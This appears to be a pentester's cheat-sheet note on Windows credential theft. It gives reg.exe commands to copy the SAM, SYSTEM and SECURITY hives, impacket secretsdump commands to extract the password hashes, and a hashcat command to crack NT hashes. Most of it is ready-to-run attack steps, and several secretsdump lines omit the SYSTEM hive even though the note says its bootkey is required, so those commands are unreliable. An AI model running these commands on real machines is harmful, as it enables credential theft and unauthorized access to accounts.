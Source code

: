 -- -
### Registry Targets
- `hklm\sam` - Contains the local account password hashes
- `hklm\system` - Contains the system bootkey used to encrypt the SAM database, used to decrypt the SAM database
- `hklm\security` - Contains cached credentials for domain accounts. More for domain joined targets
### Copy Registry Targets
on an elevated shell, PS or cmd:
```powershell
# Make a copy of SAM
reg.exe save hklm\sam C:\sam.save

# Make copy of system reg entry
reg.exe save hklm\system C:\system.save

# make a copy of the security reg entry
reg.exe save hklm\security C:\security.save
```
[[Dark Arts/File Transfer/~Home|File transfer]] the copies to attack box. 
### Dump Hashes
First you need to dump the hashes. This decrypts the hashes using the bootkey, then dumps them out so you can grab them and try to crack them.
```bash
# necessary 
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save LOCAL

# good to have if AD is present
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

# kali, most likely
impacket-secretsdump -sam sam.save -security security.save LOCAL
```
Output will show:
`(uid:rid:lmhash:nthash)` 
You will need to remember the username associated with the hash (first value) and the NT hash to crack the password (last value).
### Cracking with Hashcat
```bash
# note that you can have multiple hashes in the hash file, just make sure it's only one hash per line and nothing else. 
sudo hashcat -m 1000 hash rockyou.txt
```